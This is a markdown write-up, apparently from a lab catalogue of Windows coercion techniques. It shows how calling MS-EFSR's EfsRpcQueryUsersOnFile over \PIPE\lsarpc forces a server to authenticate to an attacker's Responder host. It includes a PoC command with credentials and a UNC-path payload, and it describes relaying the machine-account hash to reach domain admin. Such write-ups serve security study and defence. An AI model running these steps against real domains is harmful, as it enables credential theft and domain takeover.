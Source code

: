 # MS-EFSR - Remote call to EfsRpcQueryUsersOnFile (opnum 6)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

 - **Protocol version**: 1.0

 - **Function name**: [`EfsRpcQueryUsersOnFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/a058dc6c-bb7e-491c-9143-a5cb1f7e7cea)

 - **Function operation number**: `6`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\lsarpc` and bind to (uuid `c681d488-d850-11d0-8c52-00c04fd90f7e`, version `1.0`) in order to perform calls to RPC functions of the `MS-EFSR` protocol.

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Password123!" 192.168.2.51 192.168.2.1
```

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcQueryUsersOnFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/a058dc6c-bb7e-491c-9143-a5cb1f7e7cea) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcQueryUsersOnFile('\\\\192.168.2.51\\share\\file.txt\x00')
```

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share\file.txt` and therefore authenticate using its machine account. That's what we see in Responder on the bottom left terminal of my attacking machine.

Now that we have the hash of the machine account DC01$ (machine account always ends with a $), we can relay it to authenticate elsewhere as DC01$ and perform privileged actions where we can. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

## Function technical detail

```cpp
DWORD EfsRpcQueryUsersOnFile(
   [in] handle_t binding_h,
   [in, string] wchar_t* FileName,
   [out] ENCRYPTION_CERTIFICATE_HASH_LIST** Users
 );
```



## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

 - Documentation of function `EfsRpcQueryUsersOnFile`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/a058dc6c-bb7e-491c-9143-a5cb1f7e7cea